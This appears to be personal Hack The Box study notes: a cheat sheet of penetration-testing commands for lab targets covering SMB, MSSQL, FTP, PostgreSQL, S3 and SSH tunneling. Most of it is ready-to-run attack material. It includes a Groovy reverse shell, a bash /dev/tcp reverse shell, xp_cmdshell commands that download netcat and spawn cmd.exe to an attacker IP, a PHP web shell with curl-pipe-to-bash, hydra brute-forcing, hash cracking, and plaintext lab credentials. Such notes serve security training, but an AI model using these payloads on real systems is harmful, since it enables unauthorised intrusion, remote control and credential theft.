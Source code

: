 Temp:
h!B@h18.htb:h!B@h18.htb1

how to jenkins bruteforce?

SSTI,XSS,blob:https://app.hackthebox.com/32caa1fd-54a8-499f-acea-b27d3e03c561

lxc
sudo apt install snapd
sudo snap install distrobuilder --classic

build-lxd


recon enumeration
system enumeration

mike:Sheffield19
a56ef91d70cfbf2cdb8f454c006935a1
c693d9c7499d9f572ee375d4c14c7bcf

SMBCLIENT

smbclient -N -L \\\\{TARGET_IP}\\
smbclient -L 10.129.209.18 -U Administrator
smbclient \\\\10.129.209.18\C$ -U Administrator

Groovy rs
String host="10.10.14.23";
int port=8001;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


Home:
id
ss -tln // skip service names
ss -tl 
ss -tlpn

Util:
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts

JOHN:
zip2john backup.zip > hashes
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
gzip -d /usr/share/wordlists/rockyou.txt.gz 
john --show hashes

hashid 2cb42f8734ea607eefed3b70af13bbd3


Enumeration:
sudo nmap -sV 10.129.227.248
nmap -sV -sC -p- 10.129.158.230 -oN scan.txt

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.129.158.230 -x php
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u 10.129.158.230


#Impacket
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py install
# In case you are missing some modules:
pip3 install -r requirements.txt

cd impacket/examples/
python3 mssqlclient.py -h

SELECT is_srvrolemember('sysadmin');

EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.78/nc64.exe -outfile nc64.exe"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.78 443"
[xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)
10.10.14.9 443"
wget http://10.10.14.78:8000/winPEASx64.exe -outfile winPEASx64.exe
https://github.com/int0x33/nc.exe/blob/master/nc64.exe

Services:
FTP:
ftp anonymous@10.129.241.156
anonymous:anonymous

Postgresql:
psql -U christine -h localhost -p 1234
\l \list 
\c \connect ${database}
\dt ##relations
SELECT * FROM flag;

Bruteforce:
hydra -L usernames.txt -p 'funnel123#!#' {target_IP} ssh



Cloud:
AWS:
apt install awscli
aws configure
aws --endpoint=http://s3.thetoppers.htb s3 ls
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
aws --endpoint=http://s3.thetoppers.htb s3 cp shell. s3://thetoppers.htb


#Reverse shell:
echo '<?php system($_GET["cmd"]); ?>' > shell.php
http://thetoppers.htb/shell.php?cmd=id

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.23/1337 0>&1

nc -nvlp 1337

http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.23:8000/rs.sh|bash
python3 -m http.server 8000


#tunneling 
local port forwarding
ssh -L 1234:localhost:5432 christine@{target_IP}

dynamic port forwarding
/etc/proxychains4.conf
ssh -D 1234 christine@{target_IP}
1. Ensure that strict_chain is not commented out; ( dynamic_chain and random_chain should be
commented out)
2. At the very bottom of the file, under [ProxyList] , we specify the socks5 (or socks4 ) host and port
that we used for our tunnel
<SNIP>
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 127.0.0.1 9050
socks5 127.0.0.1 1234
proxychains psql -U christine -h localhost -p 5432

#Reverse php
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

#tftp
The default configuration file for tftpd-hpa is /etc/default/tftpd-hpa. The default
root directory where files will be stored is /var/lib/tftpboot

curl 'http://{target_IP}/?file=/var/lib/tftpboot/php-reverse-shell.php'
